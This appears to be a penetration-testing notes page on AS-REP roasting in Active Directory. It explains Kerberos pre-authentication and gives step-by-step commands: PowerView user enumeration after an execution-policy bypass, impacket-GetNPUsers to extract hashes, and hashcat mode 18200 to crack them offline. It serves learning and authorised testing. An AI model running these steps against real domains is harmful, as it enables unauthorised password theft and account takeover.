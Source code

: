 # AS-REP roasting

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/b4af186e-b2ff-43f9-b18e-eedb366abf13" %}

{% embed url="https://www.picussecurity.com/resource/blog/as-rep-roasting-attack-explained-mitre-attack-t1558.004" %}

{% embed url="https://jumpcloud.com/it-index/what-is-as-rep-roasting" %}

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-getnpusers" %}

{% embed url="https://www.netwrix.com/as-rep-roasting.html" %}

### What is AS-REP roasting?

#### Pre-authentication enabled

In a standard Kerberos authentication flow (with pre-authentication active), a user initiates the process by sending an **authentication service request** (**KRB\_AS\_REQ**) to the KDC, with a timestamp encrypted using its own password. The KDC will validate the timestamp (using its stored version of the user's password), and if valid, response with an **authentication service response** (**KRB\_AS\_REP**) containing a TGT.

#### Pre-authentication disabled

However, with pre-authentication disabled, the KDC prematurely sends an **authentication service response** (**KRB\_AS\_REP**) upon receiving the **KRB\_AS\_REQ** for a particular user acount, without requiring any valid authentication details. This response includes a segment encrypted with a user's password hash (the user will be specified in the **KRB\_AS\_REQ**). This allows an an attacker to extract the encrypted data without knowledge of any authentication credentials, to perform offline brute-force or dictionary attacks to obtain the user's password.

### (1) Retrieve a list of user accounts

First, we have to retrieve a list of user accounts in the AD network:

```powershell
C:\> powershell -ep bypass
PS> Import-Module PowerView.ps1
PS>  Get-DomainUser
```

### (2) Enumerate user accounts with pre-authentication disabled, and perform AS-REQ

Next, we can use the `impacket-GetNPUsers` script which&#x20;

> Queries target domain for users with 'Do not require Kerberos\
> preauthentication' set and export their TGTs for cracking:

{% code overflow="wrap" %}
```sh
$ impacket-GetNPUsers -dc-ip <DOMAIN_CONTROLLER> -usersfile <PATH_TO_USERS_LIST> -format {hashcat,john}
```
{% endcode %}

* `-dc-ip:` Address of the domain controller
* `-usersfile:` List of domain users to check against (retrieved from previous step)
* `-format:` Output format (hashcat or john). Default is hashcat.

With this, we should retrieve the TGTs for the users with the pre-authentication disabled.

### (3) Offline cracking

Given that we output the hashes in hashcat format, we can perform the following commands to crack the passwords:

```sh
$ hashcat -a 0 -m 18200 <path_to_hashes> <wordlist>

# eg. 
$ echo xxx > hashes.txt
$ hashcat -a 0 -m 18200 hashes.txt /usr/share/wordlist/rockyou.txt
```





